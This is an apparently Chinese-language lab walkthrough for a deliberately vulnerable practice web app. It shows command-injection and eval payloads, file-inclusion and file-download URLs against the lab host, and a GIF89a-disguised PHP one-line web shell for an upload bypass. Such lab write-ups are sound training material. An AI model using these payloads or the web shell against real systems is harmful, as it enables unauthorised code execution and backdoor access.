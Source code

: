 

## RCE

超级基础的rce

#### exec "ping"

用`;`进行截断，或者用`&`、`|`、`&&`和`||`都可以

```
127.0.0.1;ls
```

#### exec "eval"

eval属于危险函数，可以执行php命令，写马执行system都可以

```
system('ls');
```



## File Inclusion

#### File Inclusion(local)

控制filename可以实现任意文件读取，但是好像不能退出这个目录

```
http://node.hackhub.get-shell.com:48833/vul/fileinclude/fi_local.php?filename=file6.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```



#### File Inclusion(remote)

在线靶场显示`warning:你的allow_url_include没有打开,请在php.ini中打开了再测试该漏洞,记得修改后,重启中间件服务!`

## Unsafe Filedownload

#### Unsafe Filedownload

可以直接实现文件下载，

```
http://node.hackhub.get-shell.com:48833/vul/unsafedownload/execdownload.php?filename=file6.php
```

## Unsafe Fileupload

#### client check

前端检测无意义，关掉js加载或者直接发包都可以

```php
GIF89a
<?php  @eval($_REQUEST['huaji']);?>
```
